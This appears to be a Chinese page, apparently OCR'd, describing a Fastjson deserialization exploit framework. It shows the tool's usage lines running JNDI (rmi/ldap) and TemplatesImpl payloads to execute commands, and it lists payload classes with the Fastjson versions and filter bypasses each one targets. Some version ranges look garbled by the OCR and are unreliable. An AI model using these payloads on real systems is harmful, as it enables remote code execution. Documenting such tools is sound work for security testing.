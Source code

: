 # Fastjson 漏洞批量检测工具

## 项目地址

```http
https://github.com/c0ny1/FastjsonExploit
```

```http
https://github.com/smallfox233/JsonExp
```

## 项目介绍

```http
FastjsonExploit是一个Fastjson漏洞快速漏洞利用框架，主要功能如下：

一键生成利用payload，并启动所有利用环境。
管理Fastjson各种payload（当然是立志整理所有啦，目前6个类，共11种利用及绕过）


.---- -. -. .  .   .
   ( .',----- - - ' '
    \_/      ;--:-\         __--------------------__
   __U__n_^_''__[. |ooo___  | |_!_||_!_||_!_||_!_| |
 c(_ ..(_ ..(_ ..( /,,,,,,] | |___||___||___||___| |
 ,_\___________'_|,L______],|______________________|
/;_(@)(@)==(@)(@)   (o)(o)      (o)^(o)--(o)^(o)

FastjsonExploit is a Fastjson library vulnerability exploit framework
                Author:c0ny1<root@gv7.me>


Usage: java -jar Fastjson-[version]-all.jar [payload] [option] [command]
Exp01: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 rmi://127.0.0.1:1099/Exploit "cmd:calc"
Exp02: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 ldap://127.0.0.1:1232/Exploit "code:custom_code.java"
Exp03: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "cmd:calc"
Exp04: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "code:custom_code.java"

Available payload types:
    Payload                PayloadType VulVersion      Dependencies                                    
    -------                ----------- ----------      ------------                                    
    BasicDataSource1       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    BasicDataSource2       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    JdbcRowSetImpl1        jndi        1.2.2.1-1.2.2.4                                                 
    JdbcRowSetImpl2        jndi        1.2.2.1-1.2.4.1 Fastjson 1.2.41 bypass                          
    JdbcRowSetImpl3        jndi        1.2.2.1-1.2.4.3 Fastjson 1.2.43 bypass                          
    JdbcRowSetImpl4        jndi        1.2.2.1-1.2.4.2 Fastjson 1.2.42 bypass                          
    JdbcRowSetImpl5        jndi        1.2.2.1-1.2.4.7 Fastjson 1.2.47 bypass                          
    JndiDataSourceFactory1 jndi        1.2.2.1-1.2.2.4 ibatis-core:3.0                                 
```